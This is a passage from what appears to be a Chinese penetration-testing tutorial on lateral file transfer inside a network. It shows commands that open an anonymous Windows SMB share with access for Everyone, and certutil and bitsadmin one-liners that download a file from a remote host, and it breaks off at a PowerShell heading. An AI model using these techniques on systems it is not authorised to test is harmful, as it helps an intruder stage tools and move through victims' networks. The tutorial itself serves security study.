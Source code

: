 强制刷新组策略，立即生效(否则，重启后生效)：

```
gpupdate/force
```

5.设置文件共享

```
icacls C:\share\ /T /grant Everyone:r
net share share=c:\share /grant:everyone,full
```

至此，可匿名访问的文件共享服务器开启成功，访问的地址为`//<ip>/smb`

也可以通过脚本一键开启

https://github.com/3gstudent/Invoke-BuildAnonymousSMBServer

```powershell
Invoke-BuildAnonymousSMBServer -Path c:\share -Mode Enable  #开启
Invoke-BuildAnonymousSMBServer -Path c:\share -Mode Disable  #关闭
```

问题请参考：

https://3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-%E9%80%9A%E8%BF%87%E5%91%BD%E4%BB%A4%E8%A1%8C%E5%BC%80%E5%90%AFWindows%E7%B3%BB%E7%BB%9F%E7%9A%84%E5%8C%BF%E5%90%8D%E8%AE%BF%E9%97%AE%E5%85%B1%E4%BA%AB

![windows-smbserver](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/Intranet_horizontal/windows-smbserver.png)

![windows-dc-tp-pc-smbserver](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/Intranet_horizontal/windows-dc-tp-pc-smbserver.png)

### 利用windows自带的工具

#### certutil

windows自带的命令行工具，用于管理证书和部分证书服务的安装，提供了从网络中下载文件的功能

```
certutil -urlcache -split -f http://uu2fu3o.com/test.dtd c:\test.dtd
```

![certutil-pc](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/Intranet_horizontal/certutil-pc.png)

如图，文件成功被下载到指定位置

#### BITSAdmin

winodows自带的命令行工具(win7及以后的版本)，可完成上传文件，下载等任务

```
bitsadmin /transfer test http://uu2fu3o.com/test.dtd C:\bitsadmin.txt
```

![bitsadmin-pc](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/Intranet_horizontal/bitsadmin-pc.png)

#### Powershell

